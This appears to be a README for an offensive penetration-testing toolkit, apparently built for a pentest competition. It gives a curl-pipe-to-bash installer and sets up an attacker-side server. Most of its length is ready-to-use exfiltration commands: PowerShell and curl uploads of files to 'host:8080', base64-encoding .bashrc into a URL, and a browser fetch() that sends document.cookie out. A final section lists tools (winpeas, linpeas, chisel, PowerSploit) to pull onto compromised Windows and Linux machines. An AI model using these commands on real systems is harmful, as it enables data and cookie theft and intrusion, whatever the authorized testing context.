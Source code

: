 # Install

```
curl -sL https://raw.githubusercontent.com/zoeyg/cptc/main/install.sh | bash -
```

# http server

Run it with the `tools` alias and it'll serve files from `~/tools`, and allow some exfil.

## exfil

### Powershell

```
Invoke-RestMethod -Uri http://host:8080/win-file/output-file-name.ext -Method Post -InFile input-file-name.ext
```

### Base64 File Exfil in url

You can exfil file contents in base64 as part of the url.  Just make a request similar to the following

```
curl "http://host:8080/b64-file/path/output-filename?f=$(base64 --wrap=0 .bashrc)"
```

### Log base64 contents

Example for in browser, this will just log the cookie contents to stdout.

```
fetch('http://host:8080/b64/' + btoa(document.cookie));
```

### curl

```
curl -F 'output-filename=@./path/input-file-name' http://host:8080/upload
```

## Tool retrieval

Some available files:
* chisel.exe
* chisel - linux binary
* winpeas.bat
* winpeas.exe
* win-privesc.zip - all modules from PowerSploit/PrivEsc
* win-recon.zip - all modules from PowerSploit/Recon
* linpeas.sh
* powerview.ps1
* pspy64 - statically linked pspy version
* various statically linked linux binaries in /linux-bin
* various statically linked windows binaries in /win-bin

### Windows

```
Invoke-WebRequest -Uri 'http://host:8080/winpeas.bat' -OutFile .\winpeas.bat
wget http://host:8080/winpeas.bat -outfile winpeas.bat
```

### Linux

```
curl http://host:8080/linpeas.sh -o lp.sh
wget http://host:8080/linpeas.sh
```

## SMB Server

Serve tools from `~/tools` with the `smb` alias